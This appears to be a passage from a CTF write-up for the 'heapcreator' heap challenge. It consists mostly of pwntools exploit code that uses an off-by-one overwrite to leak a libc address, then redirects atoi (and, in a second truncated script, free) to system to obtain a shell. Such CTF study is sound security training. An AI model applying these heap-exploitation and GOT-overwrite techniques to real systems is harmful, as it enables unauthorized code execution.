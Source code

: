 ```python

create(0x18,"0000") # 0
create(0x10,"1111") # 1

edit(0, "a"*0x18 + "\x41")

delete(1)
create(0x30,p64(0)*4 +p64(0x30) +  p64(bin.got['atoi'])) #1
show(1)
cn.recvuntil("Content : ")
data = cn.recvuntil("Done !")

atoi_addr = u64(data.split("\n")[0].ljust(8,"\x00"))
base = atoi_addr - libc.symbols['atoi'] 
print "base:",hex(base)
system = base + libc.symbols['system']
edit(1,p64(system))
cn.sendline('$0')
cn.interactive()
```

exp(改free到system):

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
r = process('./heapcreator')
libc = ELF('./libc.so')

def create(size,content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def edit(idx,content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)

def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))

free_got = 0x602018
create(0x18,"dada") # 0
create(0x10,"ddaa") # 1

```
